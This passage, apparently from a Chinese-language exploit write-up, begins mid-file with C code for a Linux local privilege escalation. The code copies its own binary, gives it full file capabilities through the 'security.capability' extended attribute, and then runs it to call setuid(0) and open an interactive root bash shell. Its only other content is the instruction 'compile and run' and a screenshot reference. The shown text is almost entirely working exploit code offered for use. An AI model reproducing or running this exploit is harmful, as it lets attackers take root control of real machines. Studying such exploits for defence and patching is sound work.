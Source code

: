 ```c
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}
```

编译后运行

![image-20231121234327681](../images/image-20231121234327681.png)
